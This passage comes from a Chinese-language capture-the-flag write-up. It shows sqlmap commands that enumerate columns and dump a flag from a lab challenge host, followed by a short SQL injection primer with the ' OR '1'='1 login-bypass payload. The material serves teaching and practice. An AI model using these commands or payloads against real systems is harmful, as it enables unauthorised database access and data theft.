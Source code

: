 ```
sqlmap -u "http://node7.anna.nssctf.cn:22221/?wllm=1" -D test_db -T test_tb --columns
```

![image-20250731114555847](./assets/image-20250731114555847.png)

最后就爆出flag啦：sqlmap -u "url地址/?wllm=1" -D test_db -T test_tb -C flag --dump  

```
sqlmap -u "http://node7.anna.nssctf.cn:22221/?wllm=1" -D test_db -T test_tb -C flag --dump  
```

![image-20250731114841241](./assets/image-20250731114841241.png)

## sql注入简介

SQL注入指用户输入的参数可控且没有被过滤，攻击者输入的恶意代码被传到后端与SQL语句一起构造并在数据库中执行

例如，假设一个登录页面使用以下SQL查询来验证用户输入：

```
SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password';
```

如果攻击者输入如下内容：

- 用户名：`' OR '1'='1`
- 密码：`' OR '1'='1`

这会生成类似下面的SQL查询：

```
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';
```

由于 `'1'='1'` 总是成立，查询结果会返回数据库中的所有用户信息，甚至可能绕过登录验证。

### 普通查询注入

判断漏洞是否存在

**数字型**
